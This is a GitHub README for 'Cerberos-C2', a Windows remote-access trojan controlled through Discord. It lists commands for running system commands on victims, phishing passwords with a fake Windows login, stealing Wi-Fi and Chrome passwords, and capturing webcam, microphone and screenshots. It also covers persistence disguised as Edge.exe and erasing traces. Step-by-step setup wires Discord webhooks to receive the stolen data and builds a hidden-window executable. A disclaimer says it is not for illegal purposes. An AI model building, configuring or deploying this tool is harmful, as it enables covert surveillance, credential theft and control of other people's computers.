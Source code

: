 # Cerberos-C2
Cerberos C2 has over 50+ Functions, Cerberos Uses Discord as the C2. Cerberos CAN ONLY BE USED TO CONTROL WINDOWS. \
Cerberos v1.0.0 is created on 09-8-2022 by Vczz0.\
Cerberos is Tested on Windows 10+\
Total Spended Hours: 25~
#### BTC: bc1ql98s5yu2yt0r0rnp4ytc76sadd2xewapszmpd3


# WARNING!!
Cerberos C2 is not created for illegal purpose. The creator is not responsible for any damage. 

# Why?
i created this program to check my coding and hacking skills, and as a contribution to the hacktoberfest 2022. 
# Requirements
1. Windows 10 for setup
2. Python 3.10.6
3. Discord Application
4. Cerberos-C2.zip

# Todo
1. Email Function.
2. More Cam / microphone functions
3. GUI application
4. Rubberducky script

# Functions
if you use a path you can use {user}. Cerberos C2 will change it to the real username
change {ID} to the client ID wich you want to control.
```
# Cerberos C2
!resetID 			       >> Resets all ID's of clients. New ID's will be used after the program restarts.
!list 				       >> Display all active client's.
!info {ID} 			       >> Displays Version of client.
!terminate {ID} 		       >> Close's Application. Wich results to lose of control of client.

# System
!cmd {ID} {INPUT}		       >> Executes a system command on client. Change {INPUT} To command.
!destruct {ID} 			       >> Delets all trace's of Cerberos C2.
!reboot {ID}                           >> Reboots Client's system.
!shutdown {ID}                         >> Shutsdowb Client's system.
!usbcheck {ID} 			       >> Checks all pluged in device's.
!vm {ID}			       >> Checks if client is vm.
!wcd {ID}			       >> Get Current working dir.
!allproc {ID} 			       >> Lists all current curring processes.
!showerror {ID} {TITLE} {MESSAGE}      >> Shows error message. Change {TITLE} To your own title and {MESSAGE} TO your own message.
!clipboard {ID} 		       >> Gets Client clipboard.
!cd {ID} {DIR}		               >> Change dir to dir given.
!wallpaper {ID} {PATH}                 >> Changes walpaper to given dir. NOTE: "GIVE WHOLE DIR, else the wallpaper is black".
!volumemax {ID}			       >> Maxes out the volume of client.
!volumedown {ID} 		       >> Set's volume to zero of client.
!say {ID} {TEXT} 		       >> Get a voice to say {TEXT}.
!url {ID} {URL} 		       >> Opens {URL} in browser. 
!winlogin {ID} 			       >> Create's a fake window login to try to get a password.
!taskkill {ID} {TASK} 		       >> Kill's a task. Either the id or name.
!wifipw {ID} 			       >> Extracts wifi passwords.
!bluescreen {ID} 		       >> Bluescreen's client.
!window {ID} 			       >> Get client window text. 
!admincheck {ID}                       >> Checks for admin rights.
!termcmd {ID}			       >> start to delete all cmd windows
!terchrome {ID} 	               >> start to delete all chrome windows
!syslan {ID} 		               >> get system language
!delclipboard {ID}	               >> delete active clipboard
!setclipboard {ID} {TEXT} 	       >> replace {TEXT} with your text. set current clipboard
# Files
!upload {ID} {LINK} {NAME} / {PATH}    >> Uploads a file. Trough link. you can upload a file in the #upload channel and copy link from there. Enter file or path to store file.
!download {ID} {FILE}		       >> Downloads file from client. 
!remove {ID} {FILE} 		       >> Removes file from client
!mkdir 				       >> Make's a dir on client.

# Mouse / Keys    		       
!key {ID} {KEY} 		       >> Clicks Key given on clients keyboard change {KEY} with the key.
!morekey {ID} {KEY} 		       >> Clicks multiple Key given on clients keyboard change {KEY} with the key's.
!mousemove {ID} {coordinates} 	           >> Move's client mouse to given coordinates.
!mouseclick {ID} {coordinates} 	           >> Clicks on coordinates given.
!mouysedoubleclick {ID} {coordinates}      >> Double clicks on coordinates given.


# Cam
!screenshot {ID} 		       >> Takes a screenshot of client.
!frontcam {ID}    		       >> Takes a picture of client's frontcam.
!mic {ID}			       >> Records MIC from client for 9 seconds.
!camcount {ID} 			       >> Counts all systemcams.

# IP
!ipinfo {ID}			       >> Displays IP info of client. Country, Region etc.
!ipmap {ID} 			       >> Converts IP Lat, Long of client to a map.

# admin rights
!block {ID} 			       >> Blocks input, keyboard, mouse.
!unblock {ID} 			       >> Unblocks input. 
!displayoff {ID} 		       >> Blocks client input and set a black screen.
!displayon {ID} 		       >> Unblock client input and removes blackscreen. 

#persist
!persist {ID}			       >> Creates persistance on client. Exe: Edge.exe Regname: Edge.
!peristcheck {ID}		       >> Checks for persistance on client.
!persistdelete {ID}                    >> Tries to delete persistance.

# Chrome
!chromehistory {ID}		       >> Gets Chrome history of client. 
!chromecred {ID} 		       >> Extracts Chrome passwords.

#Rickroll
!rickroll {ID}			       >> Open's a rickroll video.

```





 

# Instalation
1. Click on [this link](https://www.python.org/ftp/python/3.10.6/python-3.10.6-amd64.exe) to download python 3.10.6.
2. Open te Python application.
3. Click "[ ] Add Python 3.10.6 to path] > "install now". Wait till finished after that you can close the Python application.
4. Open the Github of Cerberos-C2 > Click on "Code" > "Download ZIP". Wait till download is finished.
5. Unzip "Cerberos-C2.zip".
6. Open the folder "Cerberos-C2".
7. Right click on mouse and click on "Properties" > copy the "Location".
8. Open "CMD" > type: "cd" paste the copied Location + \Cerberos-C2 > hit "Enter".
9. Type: ```pip install -r requirements.txt```. Wait till its finished. Click on "-" To Minimize CMD.
10. Open Cerberus-C2 Folder again and double Click on the folder "main" > right click on "main.py" > "Edit" > "Edit with EDILE". Or you can edit it with Notepad. Minimize the Edile.
11. Click on [this link](https://discord.new/4A2stHvnUmXV) to copy the server template.
12. Change the server name to: "Cerberos C2".
13. Click on the green button "Create".
14. Open Discord > Click on the Server "Cerberos C2" > Click on "Cerberos C2" > "Server Settings" > "Integrations" > "Create Webhook".
15. Change the name of the webhook To: "Cerberos-AgentOnline" > Set channel to: "#agent-online" > Click On "Copy Webhook URL".
16. Open The Idle to change "main.py". Scroll till you see: AGENT_ONLINE_ID = "[AGENT_ONLINE_WBHOOK]". Replace [AGENT_ONLINE_WBHOOK] with your Copied Cerberos-AgentOnline Webhook setup earlier.
17. Click on "New Webhook" > change the name to "Cerberos-C2" > Channel to: "#c2"  > "Copy Webhook URL". 
18. Open The Idle to change "main.py". Scroll till you see: COMMAND_CONTROL_ID = "[C2_WEBHOOK]". Replace [C2_WEBHOOK] with your Copied Cerberos-C2 Webhook setup earlier.
19. Click on "New Webhook" > change the name to "Cerberos-Screenshots" > Channel to: "#screenshots" > "Copy Webhook URL".
20. Open The Idle to change "main.py". Scroll till you see: SCREENSHOT_ID = "[SCREENSHOT_WEBHOOK]". Replace [SCREENSHOT_WEBHOOK] with your Copied Cerberos-Screenshots Webhook setup earlier.
21. Click on "New Webhook" > change the name to "Cerberos-Webcam" > Channel to: "#webcam" > "Copy Webhook URL".
22. Open The Idle to change "main.py". Scroll till you see: WEB_CAM_ID = "[WEBCAM_WEBHOOK]". Replace [WEBCAM_WEBHOOK] with your Copied Cerberos-Webcam Webhook setup earlier.
23. Click on "New Webhook" > change the name to "Cerberos-Microphone" > Channel to: "#microphone"  > "Copy Webhook URL".
24. Open The Idle to change "main.py". Scroll till you see: MIC_ID = "[MICROPHONE_WEBHOOK]". Replace [MICROPHONE_WEBHOOK] with your Copied Cerberos-Microphone Webhook setup earlier.
25. Click on "New Webhook" > change the name to "Cerberos-Downloads" > Channel to: "#downloads" > "Copy Webhook URL".
26. Open The Idle to change "main.py". Scroll till you see: DOWNLOAD_ID = "[DOWNLOAD_WEBHOOK]". Replace [DOWNLOAD_WEBHOOK] with your Copied Cerberos-Downloads Webhook setup earlier.
27. Open your webbrowser and go to the discord developer portal website. You might have to login.
28. Click on "New application" > Set The Name Tho "Cerberos-C2" > "Create". By clicking on the image of the bot you set an logo if you want. The Logo can be found in the zip. 
29. On The left side click on "OAuth2" > "URL Generator". Click on "Bot". Then click on "Administrator.
30. Then there is a generated link click on "Copy". 
31. Open a new tab and enter the link. Note: "Sometimes it takes a bit of time".
32. Select the server: Cerberos C2.
33. click on "continue" > "authorize". do the verification.
34. Go back to the developer portal and go to "Bot" > "Copy" To copy the token. or you have to click "Reset" and then copy the token.
35. Open The Idle to change "main.py". Scroll till you see: BOT_TOKEN = "[BOT_TOKEN_HERE]". Replace [BOT_TOKEN_HERE] with your Copied Bot token setup earlier
36. Open the cmd window again. now type: ```pyinstaller main\main.py --onefile --noconsole --i \ico\exe.ixo``` and hit "Enter"
37. You can find the exe in the dist dir. 

